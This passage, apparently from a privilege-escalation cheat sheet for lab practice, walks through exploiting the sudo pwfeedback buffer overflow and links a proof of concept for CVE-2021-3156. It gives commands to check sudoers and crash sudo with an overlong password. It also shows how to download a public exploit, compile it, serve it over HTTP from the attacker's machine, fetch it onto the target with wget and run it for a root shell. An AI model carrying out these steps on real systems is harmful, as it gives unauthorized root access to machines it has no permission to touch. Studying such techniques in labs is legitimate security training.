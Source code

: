             2. **PoC**

                See **[this repository](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156){:target="_blank"}**.

        2. **Pwfeedback**

            1. **Check Enabling the Pwfeedback in /etc/sudoers**

                If so, when running sudo command and inputting password, asterisk will be displayed.  
                You can make it the buffer overflow.

                ```sh
                cat /etc/sudoers

                # -------------------------------------------

                ...
                Defaults pwfeadback
                ...
                ```

            2. **Input Long String to Password**

                ```sh
                perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
                # [sudo] password for tryhackme: Segmentation fault
                ```

            3. **Download a Payload and Compile in Local Machine**

                ```sh
                wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
                gcc -o exploit exploit.c
                ```

            4. **Transfer the Payload to Remote Machine**

                ```sh
                # In local machine
                python3 -m http.server 8000

                # In remote machine
                wget http://<local-ip>:8000/exploit
                ```

            5. **Execute the Payload in Remote Machine**

                After that, you'll get a root shell.

                ```sh
                chmod 700 ./exploit
                ./exploit
                ```
